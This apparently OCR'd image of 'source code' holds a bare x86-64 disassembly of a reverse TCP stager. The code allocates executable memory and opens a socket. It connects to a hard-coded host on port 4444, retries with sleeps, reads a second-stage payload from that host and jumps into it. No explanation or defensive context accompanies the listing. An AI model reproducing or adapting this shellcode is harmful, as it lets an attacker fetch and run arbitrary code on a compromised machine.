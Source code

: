     7d:   99                      cdq
    7e:   b6 10                   mov    dh,0x10
    80:   48 89 d6                mov    rsi,rdx
    83:   4d 31 c9                xor    r9,r9
    86:   6a 22                   push   0x22
    88:   41 5a                   pop    r10
    8a:   6a 07                   push   0x7
    8c:   5a                      pop    rdx
    8d:   0f 05                   syscall
    8f:   48 85 c0                test   rax,rax
    92:   78 51                   js     0xe5
    94:   6a 0a                   push   0xa
    96:   41 59                   pop    r9
    98:   50                      push   rax
    99:   6a 29                   push   0x29
    9b:   58                      pop    rax
    9c:   99                      cdq
    9d:   6a 02                   push   0x2
    9f:   5f                      pop    rdi
    a0:   6a 01                   push   0x1
    a2:   5e                      pop    rsi
    a3:   0f 05                   syscall
    a5:   48 85 c0                test   rax,rax
    a8:   78 3b                   js     0xe5
    aa:   48 97                   xchg   rdi,rax
    ac:   48 b9 02 00 11 5c 0a    movabs rcx,0x470e0a0a5c110002
    b3:   0a 0e 47 
    b6:   51                      push   rcx
    b7:   48 89 e6                mov    rsi,rsp
    ba:   6a 10                   push   0x10
    bc:   5a                      pop    rdx
    bd:   6a 2a                   push   0x2a
    bf:   58                      pop    rax
    c0:   0f 05                   syscall
    c2:   59                      pop    rcx
    c3:   48 85 c0                test   rax,rax
    c6:   79 25                   jns    0xed
    c8:   49 ff c9                dec    r9
    cb:   74 18                   je     0xe5
    cd:   57                      push   rdi
    ce:   6a 23                   push   0x23
    d0:   58                      pop    rax
    d1:   6a 00                   push   0x0
    d3:   6a 05                   push   0x5
    d5:   48 89 e7                mov    rdi,rsp
    d8:   48 31 f6                xor    rsi,rsi
    db:   0f 05                   syscall
    dd:   59                      pop    rcx
    de:   59                      pop    rcx
    df:   5f                      pop    rdi
    e0:   48 85 c0                test   rax,rax
    e3:   79 c7                   jns    0xac
    e5:   6a 3c                   push   0x3c
    e7:   58                      pop    rax
    e8:   6a 01                   push   0x1
    ea:   5f                      pop    rdi
    eb:   0f 05                   syscall
    ed:   5e                      pop    rsi
    ee:   6a 7e                   push   0x7e
    f0:   5a                      pop    rdx
    f1:   0f 05                   syscall
    f3:   48 85 c0                test   rax,rax
    f6:   78 ed                   js     0xe5
    f8:   ff e6                   jmp    rsi